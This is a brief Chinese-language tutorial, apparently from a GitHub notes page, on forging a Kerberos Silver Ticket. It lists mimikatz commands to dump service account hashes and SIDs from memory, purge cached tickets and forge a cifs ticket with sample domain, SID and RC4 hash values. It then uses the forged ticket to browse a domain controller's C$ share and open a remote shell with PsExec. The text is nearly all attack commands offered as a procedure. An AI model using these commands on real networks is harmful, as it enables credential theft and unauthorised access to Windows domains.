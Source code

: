 




### 白银票据(TGS)

使用白银票据:

- 获取能访问SPN服务的账户的sid值和哈希值
- 白银票据直接同应用服务器通信





#### 构造票据

第一步：

```
管理员权限运行mimikatz

privilege::debug #提升权限

sekurlsa::logonpasswords #获取service账户hash 和sid(同一个域下得sid一样)
```



第二步：

```
清空本地票据缓存

kerberos::purge #清理本地票据缓存

kerberos::list #查看本地保存的票据
```



第三步：

```
伪造白银票据并导入

kerberos::golden /domain:superman.com /sid:S-1-5-21-259090122-541454442-2960687606  /target:win08.superman.com /rc4:f6f19db774c63e49e9af61346adff204  /service:cifs /user:administrator /ptt
```



第四步：

```
访问域控的共享目录

dir \\win08\c$

远程登陆，执行命令

PsExec.exe \\win08 cmd.exe

whoami查看权限
```

